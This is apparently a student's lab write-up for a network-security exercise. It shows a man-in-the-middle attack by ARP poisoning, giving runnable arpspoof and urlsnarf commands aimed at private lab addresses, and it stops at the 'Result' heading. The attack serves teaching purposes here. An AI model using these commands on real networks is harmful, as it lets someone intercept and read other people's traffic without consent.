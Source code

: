 

### Exercise 4: Secure Server Communication

__4.1 Perform a man in the middle attack using ARP poisoning and show that you can monitor network traffic. Explain your setup__

__Solution:__

To perform the MITM using `ARP poisoning` we used `arpspoof`

__Our Setup__

![arpspoof](images/arpspoof.PNG)


__step 1:__ Select the target Ip(can be obtained using `netdiscover` or `airodump-ng`)
__step 2:__ Run `arpspoof` with target IP and gateway

```bash
sudo arpspoof -i eth0  -t 192.168.47.129  192.168.47.2 
```

- `eth0` interface you want to sniff the traffic
- `192.168.47.129` - target IP(victim)
- `192.168.47.2` - Router IP

__step 3:__ Run `urlsnarf` to sniff the traffic(captures URLS only, to sniff all types of traffic , wireshark can be run)

```bash
$ sudo urlsnarf -i eth0   
```

__Step 4:__ Simulate the client (browse some non-secure sites)

__Result__
